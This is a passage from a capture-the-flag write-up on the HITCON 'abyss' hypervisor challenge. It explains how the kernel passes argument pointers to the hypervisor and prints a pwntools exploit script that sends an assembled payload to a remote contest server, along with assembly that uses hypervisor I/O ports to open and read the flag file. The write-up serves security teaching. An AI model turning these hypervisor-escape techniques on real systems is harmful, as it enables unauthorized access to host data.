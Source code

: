 ```c
  args[0] = (void*)fd;
  args[1] = buff;
  args[2] = (void*)v3;
  args_1 = (_QWORD *)args;
  LODWORD(args_) = (unsigned __int64)kernel_to_hyper((char *)args);
  res = serial_comm(0x8001u, (unsigned int)args_);
  kfree(args_1);
  return res;
}
```

which means that the kernel actually passes a memory address of the argument
array to the hyperviser, rather than just the arguments directly. See my
requirements were very simple, for the first argument, `fd` it should be 0, or
stdin. The second argument, `buff`, should be 0 as well. It was the third
argument, `size` that should preferably be nonzero, but I didn't need a specific
value, it just had to be big enough. Actually, after a bit of thinking I used
part of the syscall table as an array to pass into the read hyperviser IO port.
It was a perfect match because it had a lot of zero's, with a few sparse values,
not too large because they were addresses corresponding to the beginning of the 
kernel image. 

So what I ended up doing was a two step input process. First, I
would input a similar "reverse-polish notation" program as the first exploit,
but change the assembly payload a bit so to open up `flag2`. Then I would pass
in the name of the file to read. Here is my python exploit 2 that does that:

```python
from pwn import *
from assembler import assemble # This was my assembler code

code = assemble('exp2.asm')

p = remote('35.200.23.198', 31733)
p.sendline(code)
p.recvuntil('Please enter filename to open:\0')
p.send('flag\0')
print('The flag is ' + p.recvline())
```

And my (abridged) assembly code:

```asm
0 # padding
ASM
  mov edi, 1
  lea rsi, [rip + prompt]
  mov edx, promptend - prompt
  mov eax, 1
  syscall

  # Exit if error
  mov ecx, eax
  cmp ecx, 0
  jl exit

  # Read into kernel memory
  mov dx, 0x8001 # read
  mov eax, 0x4010 # 0x4010 has values 0, 0, ##
  out dx, eax
  in eax, dx

  # Invoke open file
  mov dx, 0x8000 # open
  mov eax, 0 # Contains "flag"
  out dx, eax
```

[1]: /files/hitcon/abyss/assembler.py